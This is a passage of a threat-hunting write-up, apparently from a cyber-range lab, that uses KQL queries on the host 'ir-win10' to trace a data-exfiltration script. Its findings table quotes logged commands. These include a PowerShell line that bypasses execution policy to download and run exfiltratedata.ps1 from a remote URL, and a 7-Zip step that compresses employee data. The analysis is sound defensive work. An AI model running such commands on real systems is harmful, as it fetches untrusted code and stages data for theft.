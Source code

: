 ### User Inquiry

I reached out to the user of ir-win10 to get some more context. They told me they had tried installing something, saw a black screen, and then said, "nothing happened afterward." This pointed to the possibility that a malicious script might have run without them realizing it.

### Process Events Analysis

To confirm the downloaded script's execution and identify further malicious activities, I queried process events:

```kql
DeviceProcessEvents
| where DeviceName == "ir-win10"
| project Timestamp, FileName, FolderPath, ProcessCommandLine
| order by Timestamp
```

**Relevant TTPs:**
- **[T1059.001](https://attack.mitre.org/techniques/T1059/001/)**: Command and Scripting Interpreter: PowerShell
- **[T1027](https://attack.mitre.org/techniques/T1027/)**: Obfuscated Files or Information

![processquery](https://github.com/user-attachments/assets/e9197ad7-2365-4bbc-86fb-41a25c40ff57)

**Findings:**

| Timestamps                     | FileName         | FolderPath                                  | ProcessCommandLine                                        |
|--------------------------------|------------------|--------------------------------------------|---------------------------------------------------------|
| 8 Jan 2025 20:48:43, 19:48:40, 18:48:47 | 7z.exe           | C:\Program Files\7-Zip\                   | "7z.exe" a C:\ProgramData\employee-data-[TIMESTAMP].zip C:\ProgramData\employee-data-temp[TIMESTAMP].csv |
| 8 Jan 2025 20:48:37, 19:48:32, 18:48:40 | 7z2408-x64.exe   | C:\ProgramData\                           | "7z2408-x64.exe" /S                                    |
| 8 Jan 2025 20:48:35, 19:48:31, 18:48:38 | powershell.exe  | C:\Windows\System32\WindowsPowerShell\v1.0\ | powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1 |
| 8 Jan 2025 20:48:31, 19:48:27, 18:48:35 | powershell.exe  | C:\Windows\System32\WindowsPowerShell\v1.0\ | powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1 |

These logs confirmed the following sequence of events:
1. The script exfiltratedata.ps1 was downloaded and executed multiple times.
2. The script installed 7-Zip silently using 7z2408-x64.exe.
3. The installed 7-Zip (7z.exe) was used to compress sensitive data into ZIP files.

### Network Events Analysis

To identify any potential data exfiltration, I queried network events:

```kql
DeviceNetworkEvents
| where DeviceName == "ir-win10"
| project Timestamp, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine
| order by Timestamp
```

**Relevant TTPs:**
- **[T1105](https://attack.mitre.org/techniques/T1105/)**: Ingress Tool Transfer
- **[T1041](https://attack.mitre.org/techniques/T1041/)**: Exfiltration Over C2 Channel
